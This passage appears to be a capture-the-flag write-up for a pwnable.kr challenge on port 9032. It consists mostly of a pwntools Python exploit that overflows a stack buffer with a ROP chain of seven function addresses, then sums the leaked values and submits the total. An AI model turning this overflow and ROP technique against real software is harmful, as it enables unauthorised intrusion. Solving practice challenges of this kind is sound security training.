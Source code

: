 About ROP...

EXP: 

```python
from pwn import *

context(os="linux", arch="i386", log_level = "debug")

sum = 0

r = remote("pwnable.kr",9032)

A = 0x0809FE4B
B = 0x0809FE6A
C = 0x0809FE89
D = 0x0809FEA8
E = 0x0809FEC7
F = 0x0809FEE6
G = 0x0809FF05
call_ropme = 0x0809FFFC

payload = b"k" * (0x74 + 0x4) + p32(A) + p32(B) + p32(C) + p32(D) + p32(E) + p32(F) + p32(G) + p32(call_ropme)

r.sendlineafter(b"Select Menu:", str(1))
r.sendlineafter(b"How many EXP did you earned? : ", payload)
r.recvline()
for i in range(7):
    buf = r.recvline()
    num = int(buf[buf.find(b"+") + 1:buf.find(b")")])
    sum += num

# if sum over range of signed int, we will failed.
# I don't know a good way to solve.
r.sendlineafter(b"Select Menu:", str(1))
r.sendlineafter(b"How many EXP did you earned? : ", str(sum))
print(r.recvall())
```

## Rookiss

I AM A ROOKISS!

### brain fuck
